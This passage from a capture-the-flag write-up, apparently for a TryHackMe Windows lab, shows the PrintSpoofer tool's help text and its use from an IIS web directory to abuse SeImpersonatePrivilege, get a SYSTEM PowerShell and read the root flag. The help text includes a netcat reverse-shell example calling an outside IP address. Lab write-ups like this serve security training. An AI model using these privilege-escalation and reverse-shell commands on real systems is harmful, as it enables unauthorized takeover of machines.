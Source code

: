 ```bash
  Spooler service to get a SYSTEM token and then run a custom command with CreateProcessAsUser()

Arguments:
  -c <CMD>    Execute the command *CMD*
  -i          Interact with the new process in the current command prompt (default is non-interactive)
  -d <ID>     Spawn a new process on the desktop corresponding to this session *ID* (check your ID with qwinsta)
  -h          That's me :)

Examples:
  - Run PowerShell as SYSTEM in the current console
      PrintSpoofer.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the desktop of the session 1
      PrintSpoofer.exe -d 1 -c cmd.exe
  - Get a SYSTEM reverse shell
      PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"

c:\inetpub\wwwroot\nt4wrksv>
```
Important thing is, that we find our `PrintSpooler64.exe` again. 

Default Path with `IIS` is C:\inetpub\wwwroot\ and there was the SMB share as well.

Lets use it and get the `root flag`

```bash
c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer64.exe -i -c powershell.exe
PrintSpoofer64.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
PS C:\Windows\system32> cd \users\administrator\desktop
cd \users\administrator\desktop
PS C:\users\administrator\desktop> dir
dir

    Directory: C:\users\administrator\desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/25/2020   8:25 AM             35 root.txt

PS C:\users\administrator\desktop> cat root.txt
cat root.txt
THM{1fk5kf469devly1gl320zafgl345pv}
PS C:\users\administrator\desktop>
```
